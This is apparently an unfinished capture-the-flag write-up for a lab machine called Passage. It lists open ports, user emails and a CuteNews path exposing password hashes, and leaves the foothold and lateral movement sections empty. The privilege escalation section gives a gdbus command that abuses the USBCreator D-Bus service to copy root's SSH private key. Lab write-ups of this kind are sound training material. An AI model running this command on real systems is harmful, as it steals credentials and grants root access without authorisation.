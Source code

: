 Name & IP Address of Machine:
> # PASSAGE : `10.10.10.206`
**Table Of Contents:**
<!-- TOC -->

- [Synopsis](#synopsis)
    - [Opened Ports:](#opened-ports)
- [Enumeration](#enumeration)
- [- `http://10.10.10.206/CuteNews/cdata/users/lines` Bunch of hashes exposed](#--http101010206cutenewscdatauserslines-bunch-of-hashes-exposed)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Synopsis

---

#### Opened Ports: 
- [ ] 22(SSH)
- [ ] 80 (HTTP)

---

## Enumeration
- `nadav@passage.htb` , `paul@passage.htb`
- `http://10.10.10.206/CuteNews/cdata/users/lines` Bunch of hashes exposed
---

## FootHold

---

## Lateral Movement

---

## Privilege Escalation
USing usBCretor
```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/id_rsa true
```
---